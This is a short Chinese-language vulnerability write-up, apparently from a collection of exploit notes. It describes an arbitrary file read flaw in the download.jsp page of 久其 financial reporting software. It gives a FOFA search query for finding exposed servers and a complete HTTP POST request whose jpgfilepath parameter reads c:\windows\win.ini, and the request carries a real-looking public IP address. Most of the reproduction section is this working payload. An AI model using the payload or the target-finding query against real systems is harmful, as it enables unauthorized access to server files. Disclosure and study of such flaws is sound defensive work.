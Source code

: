 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

```
久其财务报表
```

## FOFA

```
body="/netrep/"
```

## 漏洞复现

登录路径如下



![](./images/202202101905343.png)



发送请求包



```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```



![](./images/202202101905484.png)